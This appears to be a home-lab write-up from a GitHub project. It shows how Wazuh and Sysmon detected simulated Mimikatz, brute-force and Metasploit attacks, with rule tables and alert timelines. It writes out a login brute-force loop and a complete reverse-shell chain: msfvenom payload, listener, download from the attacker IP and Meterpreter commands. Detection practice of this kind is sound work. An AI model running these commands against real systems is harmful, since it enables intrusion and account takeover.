



# Attack Scenarios & Detections

[← Back to README](../README.md)

---

## Scenario 1 — Mimikatz Credential Dumping (T1003)

### What is Mimikatz?

Mimikatz is a well-known post-exploitation tool used to extract password hashes, plaintext credentials, and Kerberos tickets directly from Windows memory (LSASS process). It is one of the most commonly used tools in real-world attacks after initial access is gained.

### Simulation

1. Downloaded the Mimikatz binary onto the Windows endpoint
2. Windows Defender detected the file on disk automatically
3. Wazuh received the Windows Defender alert via the eventchannel log collector

### Detection

| Field | Value |
|-------|-------|
| Wazuh Rule | 62110 — Windows Defender threat detected |
| Custom Rule | 100003 — Mimikatz detected |
| Severity | Level 15 — Critical |
| Windows Event ID | 1116 (MALWAREPROTECTION_STATE_MALWARE_DETECTED) |
| Threat Name | `HackTool:Win32/Mimikatz` |
| MITRE ATT&CK | T1003 — OS Credential Dumping |

### Screenshot



### How it was detected

Windows Defender fired Event ID 1116 the moment Mimikatz landed on disk. Wazuh picked this up through the Windows Defender eventchannel and matched it against rule 62110. The custom rule 100003 escalated it to level 15 (maximum severity) and tagged it with MITRE T1003.

---

## Scenario 2 — Brute Force Attack (T1110)

### What is a brute force attack?

A brute force attack uses repeated login attempts with different passwords to gain unauthorized access to an account. In this scenario the Windows Administrator account was targeted over the network using NTLM authentication.

### Simulation

A PowerShell script generated 50 failed login attempts in rapid succession:

```powershell
for ($i = 1; $i -le 50; $i++) {
    net use \\localhost\IPC$ /user:Administrator "WrongPassword$i" 2>$null
    Start-Sleep -Milliseconds 200
}
```

### Detection

| Field | Value |
|-------|-------|
| Wazuh Rule | 60122 — Logon Failure |
| Custom Rule | 100002 — Brute force aggregation |
| Severity | Level 12 — High |
| Windows Event ID | 4625 (An account failed to log on) |
| Threshold | 3 failures within 300 seconds |
| MITRE ATT&CK | T1110 — Brute Force |

### Screenshot



### Alert flow

```
50x Windows Event ID 4625
         │
         ▼
Wazuh Rule 60122 → "Logon Failure - Unknown user or bad password"
         │
         ▼ (3+ failures within 300 seconds)
Custom Rule 100002 → Level 12: "Brute force attack detected"
         │
         ▼
Dashboard alert + MITRE T1110 + PCI-DSS 10.2.4 tags
```

### Key event fields (Event ID 4625)

```
Account Name:   Administrator
Logon Type:     3 (Network)
Failure Reason: Unknown user name or bad password
Source IP:      127.0.0.1
```

---

## Scenario 3 — Metasploit Reverse Shell — Full Kill Chain (T1059)

### What is a reverse shell?

A reverse shell is a connection initiated by the victim machine back to the attacker. This bypasses inbound firewall rules since the connection originates from inside the network. Metasploit's Meterpreter payload provides a fully interactive shell once the connection is established.

### Kill Chain Steps

**Step 1 — Generate payload (Kali Linux)**
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.99 LPORT=4444 \
  -f exe -o payload.exe
```

**Step 2 — Set up listener (Kali Linux)**
```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.99
set LPORT 4444
run
```

**Step 3 — Deliver payload to Windows endpoint**
```bash
# Serve payload over HTTP from Kali
python3 -m http.server 8080
```
```powershell
# Download on Windows endpoint
Invoke-WebRequest http://192.168.1.99:8080/payload.exe -OutFile C:\Users\Public\payload.exe
```

**Step 4 — Execute payload**
```powershell
C:\Users\Public\payload.exe
# → Meterpreter session opens on Kali
```

**Step 5 — Post-exploitation**
```
meterpreter > shell
meterpreter > whoami
meterpreter > sysinfo
```

### Screenshot



### Detections triggered (Sysmon + Wazuh)

| Event | Sysmon Event ID | Wazuh Rule | Severity |
|-------|----------------|-----------|----------|
| Executable dropped in `C:\Users\Public\` | 11 | 92213 | Critical |
| PowerShell download activity | 1 | 92203 | Medium |
| `cmd.exe` spawned by abnormal parent | 1 | 92052 | High |
| Outbound TCP to 192.168.1.99:4444 | 3 | 92203 | Medium |

### Kill Chain Timeline

```
T+00s  payload.exe downloaded via PowerShell Invoke-WebRequest
T+05s  Sysmon Event 11: file created in suspicious directory
T+05s  Wazuh Rule 92213: "Executable dropped in folder commonly used by malware" — CRITICAL
T+08s  payload.exe executed by user
T+09s  Sysmon Event 3: outbound TCP → 192.168.1.99:4444
T+10s  cmd.exe spawned as child of payload.exe
T+10s  Wazuh Rule 92052: "Windows command prompt started by an abnormal process" — HIGH
```

**MITRE ATT&CK:** T1059 — Command and Scripting Interpreter
